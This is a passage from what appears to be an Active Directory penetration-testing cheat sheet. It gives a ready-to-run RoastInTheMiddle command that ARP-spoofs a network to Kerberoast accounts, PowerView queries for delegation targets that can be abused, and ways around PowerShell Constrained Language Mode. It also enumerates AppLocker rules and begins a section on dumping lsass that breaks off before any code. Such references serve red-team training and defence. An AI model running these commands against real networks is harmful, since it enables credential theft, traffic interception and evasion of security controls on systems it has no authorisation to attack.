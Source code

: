 **RoastInTheMiddle**
This attack will require you to arp spoof and wait for AS-REQ and perform kerberoast with the list provided. The tool can be found [here](https://github.com/Tw1sm/RITM).
> The POC starts four threads, a sniffer, an ARP spoofer, a re-assembler (for requests that are split across multiple packets), and the roaster. When it sees an AS-REQ, the POC starts trying to Kerberoast the supplied list, which can contain usernames or SPNs
```bash
ritm -i eth0 -t 192.168.86.184 -g 192.168.86.1 -d 192.168.86.182 -u /tmp/users.lst
```

>[!References]
>- https://www.semperis.com/blog/new-attack-paths-as-requested-sts/
>- https://github.com/Tw1sm/RITM
>- https://twitter.com/_nwodtuhs/status/1575082377189429250?s=20&t=iS5ugj6lp5GyL6QF4jWn0Q

### Unconstrained / Constrained Object
```powershell
# unconstrained computer
Get-DomainComputer -Unconstrained -Properties name

# Constrained user/computer
Get-DomainComputer -TrustedToAuth -Properties name,msds-allowedtodelegateto
Get-DomainUser -TrustedToAuth -Properties name,msds-allowedtodelegateto
```
You can abuse these delegation permission by referring [here](#unconstrained-delegation)

## Constrained Language Mode (CLM) / WDAC / Device Guard
### CLM Enumeration
```powershell
$ExecutionContext.SessionState.LanguageMode
```
### Bypassing CLM
1. **Spawn a new FLM powershell console**
There are multiple simple ways to bypass this lockdown mechanism. One of the cool techniques is by spawning a new FLM powershell session that interacts with the `System.Management.Automation.dll` runspace directly instead of executing under powershell.exe process. This can be done with this cool repo [here](https://github.com/calebstewart/bypass-clm)

2. **Name your script to contain "System32" string**
As referred to this [article](https://www.blackhillsinfosec.com/constrained-language-mode-bypass-when-pslockdownpolicy-is-used/), Microsoft has mentioned that when applying CLM using `__PSLockdownPolicy` variable, there are ways to bypass since the system only checks if the path contains the "System32" string.
> In addition, there are also file naming conventions that enable FullLanguage mode on a script, effectively bypassing Constrained Language.

![](./src/images/clm1.png)
### View AppLocker Rules
```powershell
Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections
```
### Dump lsass process with signed binary
This method will bypass CLM to dump lsass since we are using MS signed binary (whitelisted)
```powershell
# Run this in victim/remote computer
```